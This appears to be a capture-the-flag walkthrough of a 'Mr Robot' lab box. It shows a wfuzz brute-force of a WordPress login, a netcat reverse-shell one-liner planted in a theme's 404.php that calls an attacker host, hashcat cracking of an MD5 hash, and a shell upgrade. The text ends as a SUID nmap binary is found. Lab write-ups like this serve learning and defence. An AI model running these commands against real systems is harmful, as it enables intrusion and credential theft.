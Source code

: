 ```zsh
wfuzz -c -w ~/Downloads/fsocity.dic --hs incorrect -d "log=Elliot&pwd=FUZZ&wp-submit=Log In" -u http://10.10.22.96/wp-login.php 
```

That took a while and got me hesitating. Usualy it doesn't take so long. So I check another walkthrough (cheating) after I could not find any additional information.

#  Exploiting Wordpress
Now we are able to login to the wordpress dashboard

There are several ways to exploit the wordpress dashboard and get a reverse shell. The easiest way that  I like is to add php code to a theme.

1. Go to `Appearance` -> `editor` and select a non active theme. In this case I used 'twentythirteen'. Select the 404.php
2. add the the folliwning code to the theme:
```
exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ATTACKER IP> 443 >/tmp/f");
```
3. Update the file
4. start a listener on port 443.
5. Now visit the URL: http://10.10.217.185//wp-content/themes/twentythirteen/404.php

BOOM! We have a shell as daemon.

In the /home/robot folder we can find `key-2-of-3.txt`

# Privilege escalation.
In the same folder there is an interresting file called `password.raw-md5`. When we read the contents we see the following:
```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We can successfully crack the hash with hashcat:
```sh
hashcat c3fcd3d76192e4007dfb496cca67e13b -m 0 /usr/share/wordlists/rockyou.txt
```
After cracking the hash we can switch to user robot after upgradig our tty.:
```
python -c 'import pty; pty.spawn("/bin/bash")'

su robot
```
![](userrobot.png)
# Root
During enumartion we find an interresting file accoring to linpeas. And sure it is interesting: an nmap binary with the suid bit set:
